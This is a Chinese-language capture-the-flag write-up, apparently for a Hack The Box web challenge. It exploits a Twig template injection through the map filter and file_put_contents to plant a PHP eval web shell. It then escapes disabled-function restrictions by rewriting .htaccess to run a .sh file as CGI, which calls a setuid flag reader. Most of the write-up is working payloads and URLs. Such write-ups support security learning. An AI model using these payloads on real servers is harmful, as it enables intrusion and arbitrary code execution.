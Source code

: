 先看看附件，附件中的entrypoint.sh关掉了一堆可以执行命令的php函数，也禁止了putenv，没法劫持LD_PRELOAD

再来看看web页面，location参数一个很明显的twig模板注入，用map过滤器可以执行php代码，但是一定得是两个参数的php函数，所以先写shell：
http://192.168.205.128:1337/?location={{{%22%3C?php%20eval($_GET[0]);%22:%22test.php%22}|map(%27file_put_contents%27)}}

得到test。php

访问http://xxxxx:xxxx/test.php?0=echo+1;就可以看到回显

附件中flag在/root，www用户没权限进入，但是给了个setuid程序/readflag，setuid程序就是任意执行程序的用户都有程序所有者的权限，而这个readflag所有者是root，所以可以提权（作者的后门）
php可访问的目录被局限在/www
想办法获取执行程序的方法

exec等等都不行，但是httpd.conf中allowoverride all启用了，所以可以覆盖.htaccess来让一定后缀的文件被当作cgi脚本，这个文件我们可以用file_put_contents写的，然后调用/bin/sh去执行我们的后门

step1：
http://xxxxx:xxxx/test.php?0=urlencode(payload1)

payload1
```php
echo get_current_user();
file_put_contents(".htaccess","Options ExecCGI\nAddHandler cgi-script .sh\n");
```


step2：
http://xxxxx:xxxx/test.php?0=urlencode(payload2)
payload2
```php
echo get_current_user();
file_put_contents("exec.sh","#!/bin/sh\n\necho 'Content-Type: text/plain'\necho ''\n/readflag > /www/public/res.txt");
chmod("exec.sh",0777);
```

step3:
http://xxxxx:xxxx/exec.sh

step4:
http://xxxxx:xxxx/res.txt

HTB{byp4ss1ng_d1s4bl3d_fuNc7i0n5_and_0p3n_b4s3d1r_c4n_b3_s0_mund4n3}
